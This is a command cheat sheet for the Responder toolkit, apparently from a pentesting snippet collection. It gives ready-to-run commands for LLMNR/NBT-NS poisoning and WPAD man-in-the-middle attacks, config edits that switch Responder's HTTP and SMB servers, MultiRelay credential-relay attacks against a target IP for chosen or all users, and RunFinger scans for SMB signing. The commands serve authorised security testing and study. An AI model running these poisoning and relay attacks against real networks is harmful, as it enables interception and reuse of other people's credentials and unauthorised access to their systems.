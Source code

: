 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## responder launch
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder –I eth0
```

## responder launch - analyze mode (no poisoning)
#plateform/linux #target/remote #cat/RECON 
```
responder –I eth0 -A
```

## responder launch with wpad file 
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -I eth0 --wpad
```

## responder http on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = Off/HTTP = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder http off
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = On/HTTP = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder smb on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = Off/SMB = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder smb off
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = On/SMB = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## multirelay attack - user filtered (previous disable HTTP and SMB in Responder.conf)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB in Responder.conf)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u ALL
```

## runfinger - Responder-related utility which will finger a single IP address or an IP subnet and will reveal if a target requires SMB Signing or not.
#plateform/linux #target/remote #cat/RECON 
```
runfinger -i <network_range>
```
